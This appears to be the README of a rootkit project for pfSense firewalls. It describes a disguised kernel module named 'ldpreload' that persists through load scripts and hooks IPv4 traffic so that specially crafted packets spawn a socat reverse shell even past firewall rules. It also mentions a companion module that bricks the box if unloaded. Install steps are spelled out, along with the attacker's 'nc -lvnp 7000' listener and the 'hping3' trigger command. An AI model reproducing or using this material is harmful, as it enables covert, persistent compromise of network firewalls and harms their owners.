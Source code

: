 cite Sharad!!!

First off an important note, the current .ko files are only usable for pfSense 2.7.2 CE.
You to compile these yourself, you must do it within a pfSense box, NOT a compatable freeBSD kernel.
To be able to compile within pfSense you must follow the steps outlined in "extra/how_to_setup_pfsense_to_compile.txt".

The "extra" directory holds the C code and Makefile to create an LKM that will brick the box if unloaded and eternally just print's a face, normal input will still work on the terminal it jsut scrolls really fast.

ldpreload/LD_PRELOAD is a false name used for the rootkit since this LKM does not exist within pfSense but appears normal.

This LKM/Rootkit has persistance, from ldpreload.sh, which is loaded via load_and_setup.sh.

To load the Rootkit you must clone this directroy, cd into it, chmod +x load_and_setup.sh, and run ./load_and_setup.sh.
You will be popped out into a ghost /Apekit-tooshit directory do run cd / after the script is done.

What does it do?
This Rootkit registers a custom hook to the top of the IPv4 head within pfSense and establishes reverse shells by forking the process that runs cat and running the reverse shell command in that fork with execve.
This is super duper mega awesome because even if firewall rules are made against the attacker IP, ports, anything.  The registered hook will still receive the packet and make a reverse shell.
We use socat to make the reverse shell since FreeBSD's native version of nc (netcat) doesn't allow for reverse shells.

To get a reverse shell!

Run "nc -lvnp 7000" on the attaking machine in a terminal.
In another terminal, send packets that will pop open a reverse shell with the command
"sudo hping3 -S -p <destination port> -s 6969 <ip of victim box>"
Once you see the reverse shell connect, run control + c in the terminal that is sending the packets (you do not need to keep sending more traffic).
If the reverse shell doesn't connect after about 5 packets then run control + c in the terminal that is sending packets and re-run the command, packet filtering is finickey and sometimes you need to try a couple times.

